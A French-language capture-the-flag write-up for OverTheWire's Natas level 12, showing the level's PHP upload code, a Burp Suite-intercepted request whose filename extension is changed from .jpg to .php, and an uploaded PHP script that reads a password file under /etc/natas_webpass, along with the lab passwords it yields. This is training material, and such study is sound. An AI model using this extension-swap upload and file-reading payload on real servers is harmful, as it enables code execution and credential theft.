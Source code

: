 username : natas12
password : yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB


- On a un champ d'upload avec le code php : 
```php
<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
``` 

- On comprend que lorsque l'on va upload le fichier l'extension .jpg sera rajouté.
- J'essaye dans un premier temps d'upload un fichier php et d'intercepter la requete :
```php 
<?php echo "Zinzin"; ?>
```

Lorsque j'intercepte la requete avec Burpsuite je constate que je peux modifier le type du fichier : 

```
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------34616238034390402542525393059
Content-Length: 571
Origin: http://natas12.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxMjp5WmRrakFZWlJkM1I3dHE3VDVrWE1qTUpsT0lrekRlQg==
Connection: close
Referer: http://natas12.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1

-----------------------------34616238034390402542525393059
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------34616238034390402542525393059
Content-Disposition: form-data; name="filename"

u8lp4y4fr6.jpg  %% <---On peut modifier l'extension ICI
-----------------------------34616238034390402542525393059
Content-Disposition: form-data; name="uploadedfile"; filename="natas12.php"
Content-Type: application/x-php

<?php
$password = file_get_contents('/etc/natas_webpass/natas13');
echo $password;
?>

-----------------------------34616238034390402542525393059--

```

- Je modifie l'extension en .php et j'upload, mon code s'execute.
- Je fais pas le bourrin et je balance pas un reverse shell, je sais que le mdp est dans /etc/natas_webpass/natas13 donc nouveau script php : 

```php 
<?php
$password = file_get_contents('/etc/natas_webpass/natas13');
echo $password;
?>

```

On upload pareil, et Le mot de passe s'affiche : **trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC**
